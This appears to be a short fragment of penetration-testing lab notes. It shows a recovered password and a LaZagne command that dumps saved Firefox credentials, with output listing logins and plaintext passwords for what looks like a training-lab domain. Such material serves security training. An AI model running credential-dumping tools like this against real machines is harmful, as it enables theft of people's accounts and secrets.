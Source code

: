 ```bash
Password: 'FzXUxJemKm6g2lGh'
```

>Using LaZagne
```bash
Username@unixclient:~$ python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: Username
Password: FzXUxJemKm6g2lGh


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.2310788631439209
```
